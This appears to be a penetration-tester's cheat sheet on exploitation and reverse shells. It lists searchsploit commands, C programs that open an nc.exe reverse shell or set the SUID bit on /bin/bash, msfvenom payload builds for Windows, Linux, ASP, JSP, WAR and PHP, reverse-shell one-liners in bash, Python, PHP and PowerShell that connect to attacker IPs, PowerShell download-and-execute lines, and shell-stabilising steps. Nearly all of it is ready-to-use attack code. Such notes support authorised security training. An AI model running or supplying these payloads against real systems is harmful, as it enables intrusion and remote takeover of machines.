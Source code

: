 # 💣 Exploitation

## Locating Public Exploits

```shell
# search for an exploit
searchsploit <name>

# show the exploit
searchsploit -x <id>

# copy the exploit to the current folder
searchsploit -m <id>

# NSE
locate .nse | grep <name>
nmap --script-help <name>
```

### Compiling Exploits

Windows reverse shell using nc.exe

```c
#include <stdlib.h>

int main(){
    system("C:\\programdata\\nc.exe -e cmd.exe <ip> <port>");
    return 0;
}
```

Linux bash SUID bit

```c
#include <stdlib.h>

int main() {
    system("chmod +s /bin/bash");
    return 0;
}
```

=== "Windows"

    ```shell
    sudo apt install mingw-w64
    # 64-bit and 32-bit C++ files
    x86_64-w64-mingw32-g++ myprogram.cpp -o myprogram.exe
    i686-w64-mingw32-g++ myprogram.cpp -o myprogram.exe

    # 64-bit and 32-bit C files
    x86_64-w64-mingw32-gcc myprogram.c -o myprogram.exe
    i686-w64-mingw32-gcc myprogram.c -o myprogram.exe
    ```

=== "Linux"

    ```shell
    sudo apt install gcc g++ make
    gcc myprogram.c -o myprogram
    g++ myprogram.cpp -o myprogram
    ```

## Reverse Shells

!!! tip
    Beware of reflected ports!

> [revshells.com](https://revshells.com)

### MSFVenom

```shell
# stageless x64 shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf
# meterpreter staged shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf


msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One liners

```shell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

python -c 'import 
socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>

# powershell
# download and execute a file from memory
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

$client = New-Object System.Net.Sockets.TCPClient("192.168.45.230",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Upgrade a Reverse Shell into a full TTY

Spawn a TTY Shell

```shell
# using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

# if Python is not available
/bin/bash -i
script /dev/null -c bash
```

Background the shell and fix settings

```shell
# CTRL+Z
stty raw -echo; fg
```

Set terminal env variables

```shell
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 columns 100
```

### Add tools to Windows restricted shell

```shell
set PATH=%PATH%;C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0\;
```

### Better listener with rlwrap

```shell
rlwrap nc -lnvp 4444
```

### Penelope

If the fully interactive shell can't be achieved and it's impossible to edit a file, [penelope](https://github.com/brightio/penelope) can help.

```shell
python penelope.py 80
```

### Powercat

> <https://github.com/besimorhino/powercat>

```shell
# load the function from .ps1 file:
.\powercat.ps1
# load the function from a URL and connect back to the listener:
IEX (New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/powercat.ps1'); powercat -c <ip> -p <port> -e cmd
```

### Check Connectivity

```shell
# on Kali
sudo tcpdump -i tun0 icmp

# from the target
ping -c 1 <kali_ip>
```

